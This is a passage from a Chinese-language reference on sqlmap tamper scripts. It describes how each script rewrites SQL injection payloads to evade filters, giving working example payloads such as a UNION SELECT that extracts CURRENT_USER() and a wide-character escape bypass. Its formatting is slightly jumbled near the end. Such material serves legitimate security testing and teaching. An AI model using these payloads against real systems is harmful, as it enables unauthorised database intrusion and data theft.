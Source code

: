 在以下版本做过测试:

All

**4:halfversionedmorekeywords.py**

作用：关键字前加注释

示例：

```
value’ UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND ‘QDWa’='QDWa
value’/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)), NULL, NULL#/*!0AND ‘QDWa’='QDWa
```

版本要求:

```
MySQL < 5.1
在以下版本做过测试:
MySQL 4.0.18, 5.0.22
```

**5:unionalltounion.py**

作用：替换 UNION ALL SELECT UNION SELECT

示例：

```
'-1 UNION ALL SELECT'
'-1 UNION SELECT'
```

版本要求: all

**6:randomcomments.py**

作用：用/\*\*/分割 sql 关键字

```
‘INSERT’
‘IN//S//ERT’
```

**7:unmagicquotes.py**

作用：宽字符绕过 GPC addslashes

示例：

```
1’ AND 1=1
 1%bf%27 AND 1=1–%20
8:randomcase.py
```

作用：随机大小写

示例：
INSERT
InsERt
在以下版本做过测试:
